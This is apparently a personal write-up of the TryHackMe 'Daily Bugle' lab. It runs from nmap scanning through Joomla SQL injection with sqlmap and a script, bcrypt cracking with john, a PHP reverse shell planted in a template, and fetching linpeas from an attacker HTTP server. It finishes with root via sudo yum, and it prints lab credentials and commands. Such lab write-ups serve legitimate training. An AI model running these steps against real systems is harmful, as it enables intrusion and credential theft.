









# Daily Bugle


## NMAP
```
┌──(kali㉿kali)-[~/Desktop/DailyBugle]
└─$ sudo nmap -sS -p- 10.10.191.176                                       
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 14:26 EST
Nmap scan report for 10.10.191.176
Host is up (0.054s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 122.88 seconds
```


```
┌──(kali㉿kali)-[~/Desktop/DailyBugle]
└─$ sudo nmap -sSCV -p 22,80,3306 10.10.191.176                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 14:36 EST
Nmap scan report for 10.10.191.176
Host is up (0.050s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.53 seconds
```


## Joomla

Joomla webserver

Joomla directory struture






Version is 3.7.0




https://www.exploit-db.com/exploits/42033

CVE-2017-8917 

I also found this script on github to automate the exploit. https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py


## SQLMAP

```
sqlmap -u "http://10.10.191.176/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

## Using the POC python3 scritp

```
┌──(kali㉿kali)-[~/Desktop/DailyBugle]
└─$ python3 joomblah.py http://10.10.191.176/     
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|                                                                               
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |                                                                               
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |                                                                               
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.                                                                        
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \                                                                       
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |                                                                       
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |                                                                       
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |                                                                        
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.                                                                      
|____.'                                                                `--'  `" '---'   '---'                                                                     

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```




```
┌──(kali㉿kali)-[~/Desktop/DailyBugle]
└─$ john hash.txt --wordlist=/home/kali/Desktop/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:20:15 DONE (2023-11-09 16:08) 0.000822g/s 38.52p/s 38.52c/s 38.52C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


## Reverse Shell from Joomla

1. Login

    Login to the admin panel with the password and username we just found

    jonah:spiderman123

    


2. Go to the template section

    

    Select the template

3. Select the index.php or any other file

    

    Edit and upload you reverse shell

    I am using pentestmonkey php reverse shell

    

4. Start a nc reverse shell and go to the file you selected

### Upgrade the shell to with python

```
sh-4.2$ which python
which python
/usr/bin/python
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")
```

## Getting user

```
bash-4.2$ cat etc/passwd
cat etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```

```
bash-4.2$ ls -la
ls -la
total 36900
drwxr-xr-x.  6 mysql mysql      191 Nov  9 14:25 .
drwxr-xr-x. 28 root  root      4096 Dec 14  2019 ..
-rw-rw----.  1 mysql mysql    16384 Jan 14  2020 aria_log.00000001
-rw-rw----.  1 mysql mysql       52 Jan 14  2020 aria_log_control
-rw-rw----.  1 mysql mysql  5242880 Nov  9 16:39 ib_logfile0
-rw-rw----.  1 mysql mysql  5242880 Nov  9 16:39 ib_logfile1
-rw-rw----.  1 mysql mysql 27262976 Nov  9 16:39 ibdata1
drwx------.  2 mysql mysql     4096 Dec 14  2019 joomla
drwx------.  2 mysql mysql     4096 Dec 14  2019 mysql
srwxrwxrwx   1 mysql mysql        0 Nov  9 14:25 mysql.sock
drwx------.  2 mysql mysql     4096 Dec 14  2019 performance_schema
drwx------.  2 mysql mysql        6 Dec 14  2019 test

bash-4.2$ mysql --version
mysql --version
mysql  Ver 15.1 Distrib 5.5.64-MariaDB, for Linux (x86_64) using readline 5.1


bash-4.2$ mysql -u jjameson
   
```

Nothing from this

### Linpeas


```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 2345              
Serving HTTP on 0.0.0.0 port 2345 (http://0.0.0.0:2345/) ...
```

```
bash-4.2$ wget http://10.8.191.218:2345/linpeas.sh
wget http://10.8.191.218:2345/linpeas.sh
--2023-11-09 17:08:55--  http://10.8.191.218:2345/linpeas.sh
Connecting to 10.8.191.218:2345... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: 'linpeas.sh'

100%[======================================>] 134,168      651KB/s   in 0.2s   

2023-11-09 17:08:55 (651 KB/s) - 'linpeas.sh' saved [134168/134168]
```



```
bash-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle tmp]$
```

## PrivEsc

```
[jjameson@dailybugle ~]$ sudo -l
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```



```
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
whoami
root
sh-4.2# 
```